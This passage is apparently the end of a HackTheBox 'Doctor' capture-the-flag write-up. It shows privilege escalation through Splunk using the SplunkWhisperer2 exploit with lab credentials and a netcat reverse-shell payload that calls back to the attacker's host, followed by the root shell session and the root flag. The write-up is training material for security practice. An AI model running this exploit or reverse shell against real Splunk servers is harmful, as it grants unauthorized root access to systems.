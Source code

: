 We are able to login, but now we have to find how can we do privilege escalation via splunk.

On googling splunk privilege escalation, we get the following exploit.
[https://github.com/cnotin/SplunkWhisperer2](https://github.com/cnotin/SplunkWhisperer2)

```shell
┌─[sid@parrot]─[~/Documents/flags/hackthebox/linux-machines/doctor/SplunkWhisperer2/PySplunkWhisperer2]                         
└──╼ $python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --lhost 10.10.14.25 --lport 2222 --username shaun --password Guitar123 --payload 'nc.traditional -e /bin/bash 10.10.14.25 4444'
```


```shell
┌─[sid@parrot]─[~/Documents/flags/hackthebox/linux-machines/doctor/SplunkWhisperer2/PySplunkWhisperer2]+++++++++++++++++++++++++$
└──╼ nc -lp 4444

python3 -c 'import pty;pty.spawn("/bin/bash")'
root@doctor:/# id
uid=0(root) gid=0(root) groups=0(root)
root@doctor:/#
root@doctor:/# cd /root
cd /root
root@doctor:/root#
root@doctor:/root# ls
ls
root.txt
root@doctor:/root# cat root.txt
cat root.txt
bee050ee1540e4ba11809239374681b4
root@doctor:/root# 
```

And that was the box, if you have any doubts feel free to reach out to me on my social media.
